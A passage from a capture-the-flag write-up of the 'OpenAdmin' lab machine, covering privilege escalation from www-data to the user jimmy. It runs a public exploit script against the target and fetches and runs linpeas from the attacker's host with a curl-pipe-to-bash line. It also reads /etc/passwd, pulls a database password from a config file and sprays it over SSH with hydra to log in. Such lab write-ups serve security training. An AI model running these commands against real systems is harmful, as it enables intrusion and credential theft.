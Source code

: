 Our first attempt to run this exploit shows an error because the file isn't using the correct line endings. `dos2unix` fixes that issue and now we can use the exploit.

## Privilege escalation

### www-data -> jimmy

```bash
luc@kali:~/OpenAdmin$ ./47691.sh http://10.10.10.171/ona/
$ ls -R /home
/home:
jimmy
joanna
$ cat /etc/passwd | grep -v -e false -e nologin -e sync
root:x:0:0:root:/root:/bin/bash
jimmy:x:1000:1000:jimmy:/home/jimmy:/bin/bash
joanna:x:1001:1001:,,,:/home/joanna:/bin/bash
```

We don't have access to any of the home directories yet

```bash
$ wget http://10.10.14.9:8000/linpeas.sh
$ chmod +x linpeas.sh
$ curl http://10.10.14.9:8000/linpeas.sh | bash > linpeas.result
```

```bash
luc@kali:~/OpenAdmin$ wget http://10.10.10.171/ona/linpeas.result
luc@kali:~/OpenAdmin$ less -R linpeas.result
...
/var/www/html/ona/local/config/database_settings.inc.php:        'db_passwd' => 'n1nj4W4rri0R!',
...
```

We can run `linpeas.sh` on this server and by saving the file we can download it via `http://10.10.10.171/ona/linpeas.result`. We can see that `n1nj4W4rri0R!` was used as the database password.

```bash
luc@kali:~/OpenAdmin$ printf 'jimmy\njoanna' > users.txt
luc@kali:~/OpenAdmin$ hydra -L users.txt -p 'n1nj4W4rri0R!' ssh://10.10.10.171
...
[22][ssh] host: 10.10.10.171   login: jimmy   password: n1nj4W4rri0R!
...
luc@kali:~/OpenAdmin$ ssh jimmy@10.10.10.171
jimmy@10.10.10.171's password: n1nj4W4rri0R!
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Jun 25 10:41:02 UTC 2020

  System load:  0.0               Processes:             111
  Usage of /:   58.9% of 7.81GB   Users logged in:       0
  Memory usage: 50%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

41 packages can be updated.
12 updates are security updates.

```